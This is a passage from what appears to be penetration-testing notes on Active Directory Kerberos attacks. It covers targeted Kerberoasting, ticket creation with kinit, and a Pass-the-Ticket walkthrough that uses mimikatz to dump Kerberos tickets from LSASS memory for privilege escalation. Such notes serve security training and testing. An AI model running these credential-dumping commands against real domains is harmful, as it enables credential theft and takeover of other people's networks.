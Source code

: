 ```bash
KRB5CCNAME=user.ccache python3 targetedKerberoast.py ...

# CREATE TICKET (ONLY WORKS W/ PASSWORD AND NOT HASH??)
kinit $USER
Password for user@dom.com: 
klist
...Ticket cache: FILE:/tmp/krb5cc_1000
# Then the authentication
```

### Pass the Ticket

[https://www.thehacker.recipes/ad/movement/kerberos/ptt](https://www.thehacker.recipes/ad/movement/kerberos/ptt)

{% tabs %}
{% tab title="Overview" %}
Pass the ticket works by dumping the TGT from the LSASS memory of the machine. The Local Security Authority Subsystem Service (LSASS) is a memory process that stores credentials on an active directory server and can store Kerberos ticket along with other credential types to act as the gatekeeper and accept or reject the credentials provided. You can dump the Kerberos Tickets from the LSASS memory just like you can dump hashes. When you dump the tickets with mimikatz it will give us a **.kirbi** ticket which can be used to gain domain admin if a domain admin ticket is in the LSASS memory. This attack is great for privilege escalation and lateral movement if there are unsecured domain service account tickets laying around. The attack allows you to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket using **mimikatz PTT** attack allowing you to act as that domain admin. You can think of a pass the ticket attack like reusing an existing ticket were not creating or destroying any tickets here were simply reusing an existing ticket from another user on the domain and impersonating that ticket.

![](<../../.gitbook/assets/image (130).png>)
{% endtab %}

{% tab title="Dump Tickets" %}
{% hint style="info" %}
If you don't have an elevated command prompt (Administrators group), mimikatz will not work properly.
{% endhint %}

{% code overflow="wrap" %}
```bash
mimikatz.exe
privilege::debug # Ensure this outputs [output '20' OK]
sekurlsa::tickets /export # this will export all of the .kirbi tickets
```
{% endcode %}
